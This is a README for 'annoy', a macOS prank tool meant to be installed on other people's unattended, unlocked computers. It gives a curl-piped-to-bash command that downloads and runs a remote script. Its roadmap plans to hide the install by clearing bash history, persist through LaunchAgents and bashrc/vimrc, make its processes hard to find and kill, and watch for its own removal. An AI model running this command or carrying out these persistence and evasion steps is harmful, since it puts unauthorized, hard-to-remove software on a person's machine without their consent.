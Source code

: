 # annoy
Use this to annoy people

curl https://raw.githubusercontent.com/patrickriordan/annoy/master/monitor.sh | bash

#Goals

Be able to run on an unattended unlocked computer with internet access quickly without usb drive
Annoy the user of the computer so they will not leave their computer unlocked
Walk the fine line of malware/annoyware

NOT GOALS
Infect other computers not unlocked
Be completely unremovable (just hard)
Steal passwords or confidential information
Prevent the user from using the computer while being annoyed by this ware

#Support
only works on mac os x

#Roadmap
- Shorter install command
- Remove traces of installation (i.e. clear bash history of this command)
- Create uninstall script to undo what's been done
- Install self into LaunchAgents
- Install self into bashrc vimrc
- Try to workaround all monitor processes being killed at once
- Make it harder to find the correct process ids (maybe fork and die?)
- Have monitor processes also monitor for installation removal
